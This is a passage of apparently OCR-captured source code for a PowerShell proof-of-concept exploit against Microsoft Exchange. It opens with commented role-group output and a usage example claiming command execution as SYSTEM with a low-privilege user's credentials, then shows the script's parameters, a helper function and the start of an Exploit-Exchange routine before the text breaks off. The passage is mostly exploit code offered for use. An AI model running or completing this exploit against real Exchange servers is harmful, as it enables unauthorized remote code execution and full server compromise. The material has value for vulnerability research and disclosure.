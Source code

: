```angular2
# Members                     : {exchangedemo.com/Users/Harry Mull}
# SamAccountName              : dlp users
# Description                 :
# RoleGroupType               : Standard
# LinkedGroup                 :
# Capabilities                : {}
# LinkedPartnerGroupId        :
# LinkedPartnerOrganizationId :
# Identity                    : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
# IsValid                     : True
# ExchangeVersion             : 0.10 (14.0.100.0)
# Name                        : dlp users
# DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
# Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
# ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
# ObjectClass                 : {top, group}
# WhenChanged                 : 6/12/2020 11:29:31 PM
# WhenCreated                 : 6/12/2020 11:29:31 PM
# WhenChangedUTC              : 6/12/2020 3:29:31 PM
# WhenCreatedUTC              : 6/12/2020 3:29:31 PM
# OrganizationId              :
# Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
# OriginatingServer           : DEAD01.exchangedemo.com
# ObjectState                 : Changed
#
# Example:
#
# PS C:\Users\researcher> .\poc.ps1 -server WIN-0K4AOM2JIN6.exchangedemo.com -usr harrym@exchangedemo.com -pwd user123### -cmd mspaint
# (+) targeting WIN-0K4AOM2JIN6.exchangedemo.com with harrym@exchangedemo.com:user123###
# (+) executed mspaint as SYSTEM!
# PS C:\Users\researcher>

param (
    [Parameter(Mandatory=$true)][string]$server,
    [Parameter(Mandatory=$true)][string]$usr,
    [Parameter(Mandatory=$true)][string]$pwd,
    [string]$cmd = "mspaint"
)

Function Get-RandomAlphanumericString {
    [CmdletBinding()]
    Param (
        [int] $length = 8
    )
    Process{
        Write-Output ( -join ((0x30..0x39) + ( 0x41..0x5A) + ( 0x61..0x7A) | Get-Random -Count $length  | % {[char]$_}) )
    }	
}

function Exploit-Exchange {
    Param (
        [string] $server,
        [string] $usr,
        [string] $pwd,
        [string] $cmd
    )
    "(+) targeting $server with ${usr}:$pwd"
    $securepwd = ConvertTo-SecureString $pwd -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($usr, $securepwd)
```